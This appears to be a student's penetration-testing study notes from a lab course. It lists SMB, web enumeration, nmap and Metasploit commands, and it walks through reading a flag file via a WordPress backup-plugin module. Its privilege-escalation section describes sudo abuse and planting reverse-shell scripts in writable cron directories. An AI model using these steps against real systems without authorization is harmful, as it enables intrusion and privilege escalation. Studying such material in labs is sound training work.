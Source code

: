 ## SMB shares

To connect to a SMB share over a network as the user Bob
```
smbclient -U bob \\\\10.129.74.37\\users
```
To just look at the users on the network, use this command
```
smbclient -N -L \\\*ip-adress*
```

# Web Enumeration

## Se any hidden files or directories on a webserver that is not intended for public access. 

Tools: 

https://github.com/ffuf/ffuf

https://github.com/OJ/gobuster

## HTTP status codes

https://en.wikipedia.org/wiki/List_of_HTTP_status_codes

## DNS Subdomain Enumeration

Contains many useful lists for fuzzing and exploitation: https://github.com/danielmiessler/SecLists

Take screenshots of target web applications, fingerprint them, and indentify possible default credentials: https://github.com/FortyNorthSecurity/EyeWitness

## Video to help

https://www.youtube.com/watch?v=6Ekm0hXfvME

## First hack with Metasploit

Q: Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)

I first open up the target in my browser to see what we are working with. I meet a webpage displaying the text "Simple Backup Plugin 2.7.10 for WordPress".

I search up "simple backup" on Metasploit to see if I get any hits on it. The rest I will show is the commands to this hack.
<br>

```
msf6 > search simple backup
```
<br>

```
msf6 > use 0
```
<br>

```
msf6 > options
```
<br>

```
msf6 > set RHOST *ip-adress
```
<br>

```
msf6 > set RPORT *port
```
<br>

*this is because the question is asking us to try and get the content of the /flag.txt
```
msf6 > set FILEPATH /flag.txt
```
<br>

```
msf6 > run
```
<br>


```
cd /home/kali/.msf4/loot
```
<br>

```
ls
```
<br>


```
cat *file that you have displayed with the ls command
```
<br>

And there you have your flag. Your first hack


## Useful nmap commands list

---

Nmap dash list

-sV = Version scan

-sC = Specify Nmap scripts

-p- = Scans all 65,535 TCP ports

-sV --script=banner = Banner grabbing

---
<br>

To learn more about nmap: https://academy.hackthebox.com/module/details/19

---

## Privilege Ecalation

### PrivEsc Checklists

Checklists for Linux and Windows, but contains more info: https://book.hacktricks.xyz/welcome/readme

Also a checklist: https://github.com/swisskyrepo/PayloadsAllTheThings

 ### Enumeration Scripts
 
 Linux enumeration scripts: https://github.com/rebootuser/LinEnum
 
 Linux Privilege Escalation Check Script: https://github.com/sleventyeleven/linuxprivchecker
 
 For windows: https://github.com/GhostPack/Seatbelt
 
 https://github.com/411Hall/JAWS
 
 ### Kernel Exploits
 
 If you find any service running and old operation system, we should start by looking for potential kernel vulnerabilities that may exist. To search up older versions for vulnerabilities we use ```searchsploit```
 
 ### Vulnerable Software
 
 We need to check what runs on the system. In linux we do this with running ```dpkg -l``` and on Windows we look at C:\Program Files to check what software that is installed on the system. Then just look for older versions that are in use, and search for vulnerabilities. 
 
 ### User Privileges
 
 ```sudo -l``` to see what sudo privileges we have.
 
 List of commands on how they can explited through sudo: https://gtfobins.github.io/
 
 Contains a list of Windows applications which we may be able to leverage to perform certain functions, like downloading files or executing commands in the context of a privileged user: https://lolbas-project.github.io/#
 
 ### Schedueled tasks
 
There are usually two ways to take advantage of scheduled tasks (Windows) or cron jobs (Linux) to escalate our privileges:

 1. Add new scheduled tasks/cron jobs
 2. Trick them to execute a malicious software

The easiest way is to check if we are allowed to add new scheduled tasks. In Linux, a common form of maintaining scheduled tasks is through Cron Jobs. There are specific directories that we may be able to utilize to add new cron jobs if we have the write permissions over them. These include:

/etc/crontab
/etc/cron.d
/var/spool/cron/crontabs/root

If we can write to a directory called by a cron job, we can write a bash script with a reverse shell command, which should send us a reverse shell when executed.

### Q

sudo -u user2 /bin/bash 

This is to gain access to the flag.


